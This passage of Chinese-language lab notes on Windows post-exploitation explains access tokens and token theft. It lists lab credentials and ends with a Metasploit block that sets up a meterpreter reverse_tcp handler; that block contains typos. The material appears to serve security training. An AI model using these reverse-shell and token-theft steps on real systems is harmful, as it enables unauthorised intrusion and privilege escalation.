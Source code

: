![image-20241009142731721](https://image.201068.xyz/assets/38.后渗透/image-20241009142731721.png)

![image-20241009143201877](https://image.201068.xyz/assets/38.后渗透/image-20241009143201877.png)

> **服务账户**不能运行安装 ，需要切换到apache普通用户
>
> apache / qwe.123

![image-20241009143832439](https://image.201068.xyz/assets/38.后渗透/image-20241009143832439.png)

![image-20241009144315542](https://image.201068.xyz/assets/38.后渗透/image-20241009144315542.png)

## 三.访问令牌操纵

Windows 操作系统的访问控制模型 (Access Control Model) 是 Windows 系统安全性的基础构件，由访问令牌（Access Token) 和安全描述符（Security Descriptor）两部分组成，二者分别被访问者和被访问者所持有。

通过比较访问令牌和安全描述符的内容，Windows 可以对访问者是否拥有访问资源对象的能力进行判定。

### 3.1.访问令牌

访问令牌是描述进程或线程安全上下文的对象，包含与进程关联的用户账户的标识和特权等信息。

系统使用访问令牌来控制用户可以访问的安全对象，并限制用户执行相关系统操作的能力。

当用户登录时，系统将对用户进行身份验证，如果验证通过，就会为用户创建一个访问令牌，包括登录过程返回的 `SID` 以及由本地安全策略分配给用户和用户所属安全组的特权列表。

此后，代表该用户执行的每个进程都有此访问令牌的副本，每当线程或进程与安全对象交互或尝试执行需要特权的系统任务，系统都会使用此访问令牌标识并确定关联的用户。

通过操纵访问令牌，使正在运行的进程看起来是其他进程的子进程或属于其他用户所启动的进程。

这常常使用内置的 Windows API 从指定的进程中复制访问令牌，并将得到的访问令牌用于现有进程或生成新进程，以达到权限提升并绕过访问控制的目的。这个过程被称为令牌窃取。

> 注意，令牌窃取只能在特权用户上下文中才能完成，因为通过令牌创建进程使用的 `CreateProcessWithTokenW`（创建一个新进程及其主线程，新进程在指定令牌的安全上下文中运行） 和 `CreateProcessAsUserA`（创建一个新进程及其主线程，新进程在由指定令牌表示的用户的安全上下文中运行） 
>
> 两个 Windows API 分别要求用户必须拥有 `SelmpersonatePrivilege`（又称为“模拟客户端的安全上下文”权限,它允许一个进程模拟另一个用户的安全上下文,以该用户的身份访问资源） 和 `SeAssignPrimaryTokenPrivilege/SelncreaseQuotaPrivilege`（又称为“替换进程级访问令牌”权限,它允许一个进程申请替换另一个进程的访问令牌,从而改变目标进程的用户和权限）特权，
>
> 而拥有这两个特权的用户一般为系统管理员账户.网络服务账户和系统服务账户。

### 3.2 利用 MSF 窃取令牌

#### 环境准备

- 需要**管理员组级别的权限**，一般配合烂土豆使用，可实现**低权限**提权

> administrator / Qwe.123

```python
msfconsole
use exploit/multi/handler
show optoions
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lpost 8888
run

getuid
```
